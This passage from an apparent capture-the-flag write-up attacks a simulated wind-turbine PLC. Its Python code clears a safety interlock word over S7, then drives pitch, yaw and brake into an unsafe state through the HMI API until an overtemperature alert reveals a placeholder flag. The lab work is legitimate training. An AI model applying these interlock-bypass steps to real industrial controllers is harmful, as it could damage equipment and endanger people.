telemetry = session.get("http://127.0.0.1:5000/api/telemetry", timeout=5).json()["data"]
alerts = session.get("http://127.0.0.1:5000/api/alerts", timeout=5).json()["data"]

subset = {
    key: telemetry[key]
    for key in [
        "mode",
        "interlock_mask",
        "wind_speed_mps",
        "wind_direction_deg",
        "yaw_deg",
        "yaw_error_deg",
        "blade_pitch_deg",
        "pitch_setpoint_deg",
        "yaw_setpoint_deg",
        "generator_kw",
        "generator_temp_c",
    ]
}
print(json.dumps(subset, indent=2))

resp = session.post(
    "http://127.0.0.1:5000/api/control",
    json={"action": "set_pitch", "value": 0.0},
    timeout=5,
)
print(resp.status_code, resp.text)
```

**Validated baseline panel state**

```json
{
  "mode": 0,
  "interlock_mask": 1,
  "wind_speed_mps": 11.823864936828613,
  "wind_direction_deg": 186.988037109375,
  "yaw_deg": 186.988037109375,
  "yaw_error_deg": 0.14592203497886658,
  "blade_pitch_deg": 3.2829573154449463,
  "pitch_setpoint_deg": 4.0,
  "yaw_setpoint_deg": 190.0,
  "generator_kw": 2492.884765625,
  "generator_temp_c": 72.9592056274414
}
```

```json
[
  {
    "id": "high_wind",
    "name": "High Wind Speed",
    "severity": "warning",
    "status": "Disabled",
    "trip_cycles": 3,
    "count": 0,
    "active": false
  },
  {
    "id": "yaw_misalignment",
    "name": "Yaw Misalignment",
    "severity": "warning",
    "status": "Disabled",
    "trip_cycles": 3,
    "count": 0,
    "active": false
  },
  {
    "id": "flag_alert",
    "name": "Generator Temp High",
    "severity": "critical",
    "status": "Disabled",
    "trip_cycles": 5,
    "count": 0,
    "active": false
  }
]
```

```text
pitch in auto 400 {"error":"Cannot set pitch in auto mode. Switch to manual first.","ok":false}
```

This step is where the exploit stops being abstract. We now know what the safe baseline looks like, which controls exist, which protections are active, and which alert must eventually be driven active for the flag to appear.



---

### Step 9 - Clear the Interlock and Use the HMI to Drive an Unsafe Operating State

The unsafe state needs two different control planes. The HMI is the right place to change mode, pitch, yaw, and brake state, because those are normal operator actions. The interlock mask is different. It appears on the panel as status, but the exploit writes it directly in `DB` because it is a low-level protection word rather than a front-end action. By correlating the live `interlock_mask` field with the writable DB region, the relevant word can be localized to `DB0.DBW126`, and clearing it changes the HMI view from `1` to `0`.

After the interlock is cleared, the web panel is used to switch the PLC into manual mode, set blade pitch to `0.0`, set yaw to `90.0`, and release the brake. The thermodynamic logic is visible from the telemetry that follows. Yaw moves away from wind direction, yaw error rises continuously, and generator temperature begins climbing instead of being kept in the safer operating band. The combination of low pitch and severe yaw misalignment is what pushes the system into sustained thermal stress.

**Python snippet: clear the interlock over S7, then use the HMI control API**

```python
import requests
import socket


with socket.create_connection(("127.0.0.1", 1022), timeout=10) as sock:
    s7_connect(sock)
    resp = write_single(sock, DB, 126, b"\x00\x00")
    print("interlock write:", resp.hex())


def control(session, action, value=None):
    body = {"action": action}
    if value is not None:
        body["value"] = value
    r = session.post("http://127.0.0.1:5000/api/control", json=body, timeout=5)
    print(action, value, r.status_code, r.text)
    return r.json()


control(session, "set_mode", 1)
control(session, "set_pitch", 0.0)
control(session, "set_yaw", 90.0)
control(session, "brake_release")

post = session.get("http://127.0.0.1:5000/api/telemetry", timeout=5).json()["data"]
print(post["mode"], post["interlock_mask"], post["pitch_setpoint_deg"], post["yaw_setpoint_deg"])
```

**Validated control-stage output**

```text
[DB interlock write] 0300001602f0803203000070010002000100000501ff
[control] set_mode 1 200 {"message":"Mode set to manual.","ok":true}
[control] set_pitch 0.0 200 {"message":"Pitch setpoint updated to 0.0°.","ok":true}
[control] set_yaw 90.0 200 {"message":"Yaw setpoint updated to 90.0°.","ok":true}
[control] brake_release None 200 {"message":"Brake released.","ok":true}
```

```json
{
  "mode": 1,
  "interlock_mask": 0,
  "brake_status": 0,
  "pitch_setpoint_deg": 0.0,
  "yaw_setpoint_deg": 90.0,
  "yaw_deg": 186.988037109375,
  "yaw_error_deg": 0.14592203497886658,
  "generator_temp_c": 72.9592056274414,
  "generator_kw": 2492.884765625
}
```

The important detail here is persistence, not instant effect. The yaw position does not teleport to `90.0`; it trends toward it over time, which is why the next step polls the live panel until the alert has accumulated enough trip cycles to latch.

---

### Step 10 - Poll the Alert Monitor Until the Generator Overtemperature Alert Reveals the Flag

The final step is to watch the process rather than force more writes. The HMI alert monitor exposes both the current generator temperature and the alert state machine. The generator-temperature alert does not flip active the instant the threshold is crossed. It requires multiple consecutive trip cycles, which means the exploit must hold the unsafe condition long enough for the counter to accumulate. This is why the writeup should not end at "generator temperature hit 92 C." The flag only appears when the HMI's alert logic decides that the overtemperature condition has latched.

The cleanest way to observe this is to poll `/api/telemetry` and `/api/alerts` together. Telemetry shows the temperature and yaw error climbing, while the alert payload shows the human-facing state transition from `Disabled` to `Active`. When that happens, the alert's `message` field stops being a threshold explanation and becomes the flag itself.

**Python snippet: poll the live alert monitor until the flag-bearing alert activates**

```python
import time


for attempt in range(1, 20):
    telem = session.get("http://127.0.0.1:5000/api/telemetry", timeout=5).json()["data"]
    alerts = session.get("http://127.0.0.1:5000/api/alerts", timeout=5).json()["data"]

    flag_alert = next(alert for alert in alerts if alert["id"] == "flag_alert")

    print(
        f"[{attempt:02d}] temp={telem['generator_temp_c']:.1f} "
        f"yaw_error={telem['yaw_error_deg']:.1f} "
        f"status={flag_alert['status']} "
        f"message={flag_alert['message']}"
    )

    if flag_alert["active"]:
        break
    time.sleep(5)
```

**Validated final progression**

```text
[poll 01] temp=74.4 yaw_error=9.1 status=Disabled message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 02] temp=77.3 yaw_error=17.9 status=Disabled message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 03] temp=80.3 yaw_error=26.7 status=Disabled message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 04] temp=83.4 yaw_error=35.5 status=Disabled message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 05] temp=86.4 yaw_error=44.3 status=Disabled message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 06] temp=89.3 yaw_error=53.1 status=Disabled message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 07] temp=92.2 yaw_error=61.9 status=Disabled message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 08] temp=95.0 yaw_error=70.7 status=Disabled message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 09] temp=95.0 yaw_error=93.4 flag=Disabled yaw=Active message=Generator temperature exceeds 92.0°C. Flag will be revealed when active.
[poll 10] temp=95.0 yaw_error=102.1 flag=Active yaw=Active message=HTB{f4k3_fl4g_f0r_t35t1ng}
```

The exploit chain is complete only here. The credential leak, login, and control writes are all enabling steps. The actual win condition is the alert engine deciding that the process has been driven far enough into the unsafe thermal regime to reveal the flag.


